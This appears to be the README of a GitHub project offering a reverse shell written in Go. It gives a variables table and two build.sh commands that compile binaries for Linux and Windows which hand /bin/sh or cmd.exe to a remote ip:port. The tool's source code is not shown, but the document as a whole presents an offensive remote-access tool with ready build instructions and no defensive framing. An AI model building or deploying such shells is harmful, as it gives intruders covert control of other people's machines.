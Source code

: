 # go-reverse-shell

A simple reverse shell written in Go.
Credits to [moloch](https://gist.github.com/moloch--/86068b6019ff5e3280725230dcafa892).

## Usage

| Variable      | Value                                                                                                                                        |
|---------------|----------------------------------------------------------------------------------------------------------------------------------------------|
| `GOARCH`      | one of `386`, `amd64`, `arm`, `arm64`, `mips`, `mipsle`, `mips64`, `mips64le`, `ppc64`, `ppc64le`,`s390x`                                    |
| `GOOS`        | one of `aix`, `android`, `darwin`, `dragonfly`, `freebsd`, `illumos`, `js`, `linux`, `netbsd`, `openbsd`, `plan9`, `solaris`, `windows`      |
| `shell`       | file path, e.g. `/bin/sh`, `/bin/bash`, `C:\\Windows\\System32\\cmd.exe` or `C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe` |
| `destination` | any `ip:port` combination, e.g. `192.168.1.1:1337`                                                                                           |

~~~ sh
./build.sh GOARCH=arm GOOS=linux shell=/bin/sh destination=1.2.3.4:5678
./build.sh GOARCH=amd64 GOOS=windows shell=C:\\Windows\\System32\\cmd.exe destination=5.6.7.8:4321
~~~
